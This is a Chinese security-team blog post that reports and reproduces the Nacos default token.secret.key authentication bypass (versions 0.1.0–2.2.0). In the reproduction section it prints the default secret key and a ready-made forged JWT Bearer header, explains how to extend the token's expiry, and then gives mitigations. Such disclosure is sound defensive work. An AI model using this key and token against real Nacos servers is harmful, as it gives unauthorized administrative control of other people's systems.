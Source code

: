 #  【烽火狼烟】Nacos身份认证绕过漏洞

原创 Wannacry、S1X  [ 东方隐侠安全实验室 ](javascript:void\(0\);)

**东方隐侠安全实验室** ![]()

微信号 dfyx_sec

功能介绍 侠之大者，为国为民。东方隐侠安全团队，专注于安全基础能力研究，定期进行安全知识分享，共享国内外网络安全资讯，开展各类技术交流培训等，欢迎关注！

____

___发表于_

收录于合集 #安全资讯 4个

# 点击蓝字 关注我们 #

 **漏洞描述**

东方隐侠安全团队已成功复现Nacos token.secret.key身份认证绕过漏洞，漏洞原理为开源服务管理平台 Nacos在默认配置下未对
token.secret.key 进行修改，导致远程攻击者可以绕过密钥认证进入后台造成系统受控等后果。

 **漏洞信息**

漏洞类型：身份认证绕过漏洞等级：高危漏洞编号：NVDB-CNVDB-2023674205  
受影响版本：0.1.0 <= Nacos <= 2.2.0

 **漏洞原理**

漏洞的本质是因为使用了默认的`key。`

JWT（JSON Web
Token）是一种用于在网络应用之间安全传递信息的开放标准。在使用JWT时，通常需要使用密钥对token进行签名，以确保token在传输过程中不被篡改。如果在代码中将密钥硬编码到应用程序中，将会存在JWT硬编码漏洞。JWT硬编码漏洞是指将密钥硬编码到应用程序代码中，而不是存储在安全的密钥存储库中，攻击者可以轻松地获取该密钥并使用其签署和验证JWT。这使攻击者可以创建或修改JWT，或者验证伪造的JWT，从而导致安全漏洞。例如，应用程序使用硬编码密钥对JWT进行签名，攻击者可以轻松获取该密钥并创建有效的JWT，该JWT会被误认为是经过身份验证的用户，从而获得未经授权的访问权限。因此，为了避免JWT硬编码漏洞，应该将密钥存储在安全的密钥存储库中，并且只有授权的应用程序可以访问它。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317151302.png)

  

  

 **漏洞复现**

  

登录页面

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317151329.png)

默认 secret.key 为  

SecretKey012345678901234567890123456789012345678901234567890123456789，伪造  jwt

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317151334.png)

利用伪造后的 jwt 发起请求，例如读取用户列表

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317151335.png)

  

或者是在请求头处添加

  * 

    
    
    Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODgwNzY1Nn0.EYvjr2bJCv44VomUuWOt78Vbu7ALhyXu2WMGHrOyyBw

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317151340.png)

需要注意一点，伪造的 `jwt` 中使用的是旧时间戳，使用默认 `payload` 可以做任何操作除了登录接口

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317151342.png)

可以直接设置超长时间来伪造 `jwt`

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317151345.png)

  

成功绕过登录，进入后台：  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317151348.png)

  

 **漏洞修复**

  

更新版本：https://nacos.io/zh-cn/blog/announcement-token-secret-key.html  
缓解措施：1、检查application.properties文件中token.secret.key属性，若为默认值，可参考：https://nacos.io/zh-
cn/docs/v2/guide/user/auth.html进行更改。2、将Nacos部署于内部网络环境

  

 **EXP获取**

  

当前EXP已在野公开，各位少侠可加入【东方隐侠安全团队】知识星球获取各类漏洞最新漏洞利用EXP：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317151350.png)

  

  

关注东方隐侠安全团队 为安全界刮起一股侠客风

        东方隐侠安全团队，一支专业的网络安全团队，将持续为您分享红蓝对抗、病毒研究、安全运营、应急响应等网络安全知识，提供一流网络安全服务，敬请关注！

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317151351.png)

  

 **公众号｜东方隐侠安全实验室**

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

